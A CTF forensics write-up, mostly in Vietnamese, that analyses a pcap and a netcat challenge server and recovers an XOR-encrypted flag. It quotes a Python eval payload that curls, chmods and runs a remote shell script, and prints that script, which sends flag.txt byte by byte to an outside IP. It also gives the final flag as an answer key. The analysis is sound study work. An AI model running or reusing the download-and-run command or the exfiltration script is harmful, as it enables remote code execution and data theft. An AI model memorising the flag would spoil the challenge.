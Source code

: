 # Description 

I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?

Author: Guesslemonger

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/9b791c18-c837-40d5-81f8-8e953e5780cf)

# Solved

Challange cung cấp file `pcap` nên hãy bắt đầu phân tích và tìm kiếm dữ liệu quan trọng trong file trước : 

Khá nhiều gói tin có vẻ quan trọng được gửi đi hãy thử lấy chúng ra xem : 

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/e83b126f-1365-4b55-b206-9aac41186bfb)

`Export Objects -> HTTP -> lưu tất cả vào 1 thư mục nào đó cần thiết để xử lí :`

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/6ffca8ed-c013-4ceb-9295-4b9c06e7c7b8)


Okay, ở đây mỗi file đều chứa 1 dữ liệu gì đó sau `data` thử tổng hợp chúng lại và mình thu được 1 đoạn mã `hex` có vẻ như đây là `flag` nhưng đã được encrypt:

`20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f`

mình đã  sử dụng 1 đoạn python nhỏ để lấy dữ liệu trên : 

```python
import os
import json

folder_path = "C:\\Users\\DELL\\Downloads\\ctf\\forensic\\evalme\\test"

combined_values = []  # Danh sách giá trị của khóa "data"

num_files = 102  # Số lượng file %5c, %5c(1), %5c(2), ..., %5c(101)

for i in range(num_files):
    file_name = f"%5c({i})" if i > 0 else "%5c"  # Tạo tên file tương ứng
    full_path = os.path.join(folder_path, file_name)
    try:
        with open(full_path, "rb") as file:
            file_content = file.read()  # Đọc nội dung của file
            try:
                json_data = json.loads(file_content)
                data_value = json_data.get("data")
                if data_value is not None:
                    combined_values.append(data_value)
            except json.JSONDecodeError:
                pass  # Bỏ qua nếu không phải định dạng JSON
    except FileNotFoundError:
        pass  # Bỏ qua nếu file không tồn tại

# In ra các giá trị cách nhau bởi khoảng trắng
combined_line = ' '.join(combined_values)
print(combined_line)


```

Có vẻ như không còn gì quan trọng ở đây hãy tiếp tục xử lí đến server mà bài đã cung cấp : `nc chals.sekai.team 9000`

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/82c94f21-8288-456d-ac59-42b0ebb659aa)

Kết nối lên và làm theo yêu cầu thì có vẻ như thông thường sẽ luôn nhận về kết quả `too slow` , vậy phải kết nối lên và đồng thời tính toán luôn sẽ kịp được tốc độ của máy, `pwntool` trong python sẽ giúp làm điều này :

```python
from pwn import *

def calculate(expression):
    parts = expression.split(' ')
    if len(parts) != 3:
        return None
    num1 = int(parts[0])
    operator = parts[1]
    num2 = int(parts[2])
    if operator == '+':
        return num1 + num2
    elif operator == '-':
        return num1 - num2
    elif operator == '*':
        return num1 * num2
    elif operator == '/':
        return num1 / num2  

while True:
    try:
        conn = remote('c.chals.sekai.team', 9000)
        welcome_message = conn.recvline().decode().strip()
        print(welcome_message)

        for _ in range(100):
            problem = conn.recvline().decode().strip()
            print(problem)
            
            result = calculate(problem)
            if result is not None:
                conn.sendline(str(result).encode())
                response = conn.recvline().decode().strip()
                print(response)

        conn.close()
    except EOFError:
        print("Connection closed, retrying...")
        continue
    except KeyboardInterrupt:
        print("Interrupted by user.")
        break

```

Đợi 1 lúc và nhận được dòng tin nhắn sau từ server : `__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f#1 + 2ct.sh)>/dev/null 2>&1||true",shell=True)`

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/0cef2a87-4efd-4095-8862-12be9c684d39)

Ở đây có chứa câu lệnh `curl` 1 file gì đó từ đường link kia, thử câu lệnh đó và thu được `code` của 1 file  : `curl -sL https://shorturl.at/fgjvU`

```bash
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

Okay, ở đây có chứa giá trị `KEY` và thuật toán `xor` , quay lại lúc nãy mình có `flag` dưới dạng `hex` nhưng đã được encrypt ,  `xor` chúng với `key` thu được này và thu về được `FLAG` :

Có thể dùng `CyberChef` hoặc `Python` để `xor` :

`From CyberChef` : 

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/47c74b04-362d-4183-82ea-129007d3ab85)


```python
from pwn import xor

hex_string = '20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f'
key = 's3k@1_v3ry_w0w'

hex_values = bytes.fromhex(hex_string.replace(' ', ''))
key_values = key.encode()

xor_result = xor(hex_values, key_values)
xor_result_hex = xor_result.hex()
last_result = bytes.fromhex(xor_result_hex)

print(last_result)
```

# Flag 

 `FLAG`  : `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`




